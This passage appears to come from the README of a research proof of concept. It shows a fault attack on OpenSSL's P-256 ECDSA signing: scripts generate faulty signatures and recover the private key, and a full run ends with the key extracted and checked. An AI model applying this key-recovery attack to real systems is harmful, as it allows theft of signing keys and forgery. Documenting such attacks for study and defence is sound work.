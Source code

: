 Then, the key can be recovered with the second script:
```shell
$ ./p256_privatekey_recovery.py publickey.pem /path/to/signatures
```
Where the arguments are
- `publickey.pem`: the corresponding public key, used to check signatures and if the guessed private key is correct;
- `/path/to/signatures`: directory where the signatures are stored.

We give an example below with its output:
```shell
$ ./openssl_p256_attack_simulation.py ./openssl_altered privatekey.pem TEST 2200
Signatures and messages will be stored in the directory TEST
Generating 2200 signatures with fault in last point addition...
  ... done
$
$ ./p256_privatekey_recovery.py publickey.pem TEST
Nb valid signatures:  1 /   74
Nb valid signatures:  2 /  107
Nb valid signatures:  3 /  134
(...)
Nb valid signatures: 51 / 1516
Nb valid signatures: 52 / 1570
Recovering the key, attempt 1 with 52 signatures...
Nb valid signatures: 53 / 1612
Recovering the key, attempt 2 with 53 signatures...
Nb valid signatures: 54 / 1640
Recovering the key, attempt 3 with 54 signatures...
SUCCESS!
The private key is: 5f3e2c2d115fcc3e2e58049746b6c89d8ecb056690247590490b31136c3bda5c
Nb signatures valid: 54
Nb signatures total: 1640
```

It can be checked that the private key is indeed correct using the following command:
```shell
$ openssl ec -in privatekey.pem -text -noout
read EC key
Private-Key: (256 bit)
priv:
    5f:3e:2c:2d:11:5f:cc:3e:2e:58:04:97:46:b6:c8:
    9d:8e:cb:05:66:90:24:75:90:49:0b:31:13:6c:3b:
    da:5c
pub: 
    04:ab:28:be:3d:17:6f:b0:44:bb:f7:44:51:fb:39:
    0b:4d:9c:b6:4a:18:ec:f1:5b:69:9d:e3:87:ea:e4:
    c6:7d:bd:73:26:10:11:22:af:92:b0:aa:d1:0c:ab:
    f7:a6:83:f1:ef:4f:48:10:c2:00:b2:b6:ce:c4:0b:
    b4:bf:3d:65:47
ASN1 OID: prime256v1
NIST CURVE: P-256
```

